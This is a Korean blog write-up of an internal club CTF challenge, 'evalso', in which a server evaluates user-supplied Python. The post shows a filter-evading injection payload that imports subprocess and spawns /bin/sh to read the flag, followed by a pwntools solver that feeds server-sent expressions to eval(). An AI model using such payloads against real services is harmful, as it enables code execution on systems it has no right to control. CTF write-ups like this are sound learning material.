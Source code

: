 ```yaml
---
layout: post
title: "[JFS] evalso"
subtitle: "이발소"
categories: writeup
tags: jfs
comments: true
---
```


### JFS란?
	ARGOS 내부 해킹 대회

***

evalso(이발소...) 라는 100점짜리 문제.
<!--more-->

![evalso]({{site.baseurl}}/images/2018-12-06-JFS-evalso/00.PNG)



눌러보면 다음과 같다.

![]({{site.baseurl}}/images/2018-12-06-JFS-evalso/01.PNG)

5초안에 문제를 풀어라(?)

![]({{site.baseurl}}/images/2018-12-06-JFS-evalso/02.PNG)

>동아리 내부망에서만 접근 가능한 IP다.

다음과 같이 nc 했을 때, 수식이 나오고 답을 입력하면 다음 단계로 넘어가는 듯 하다.

![]({{site.baseurl}}/images/2018-12-06-JFS-evalso/03.PNG)

수식을 풀면 되는 줄 알고 python의 pwntools를 이용하여 해보려 했지만... 

10개를 풀고나니 항이 3개가 되어 곤란해졌다. 

그래서 고민하던 중 예전에 봤던 PyJail 문제가 생각나서 쉘코드를 삽입해보았다.

` __import__('subpro'+'cess').call(['/bin/sh', '-s'])`

Python에서 'subprocess'를 우회하여 쉘을 실행시키는 쉘코드이다.

그런 후 ls를 했더니

`evalso.py` 라는 파일이 달랑 하나 있기에

`cat evalso.py` 를 입력하니 (5초안에 해야한다.) 플래그가 보였다. !

`JFS{eVaL_Iz_0UR_fRi3Nd}` flag가 python 파일에 코딩되어 있었다.

100점 획득!



****

사실 이 문제는 pyjail이 아니라 built-in function을 활용하는 문제였다. 위 수식을 받아서 '=?'를 제외하고 eval이라는 함수의 인자로 넣어서 입력하면 계산된 출력되는 점을 이용하는 문제였다.(ㅋㅋㅋ)



```python
from pwn import *

p = remote("168.188.123.207", 16160)

for i in range (0, 30):
        line = p.recvline()
        print line
        if not line[0] == 'a':
                result = line[:-3]
                print result
                p.sendline(str(eval(result))) #계산된 결과를 str형태로 바꾼 후 서버에 보냄
        else:
                result = line[5:-3] #"ans = " 처리
                print result
                p.sendline(str(eval(result)))
print p.recvline()
```



다음과 같은 python 코드를 실행하면 문제가 풀린다 !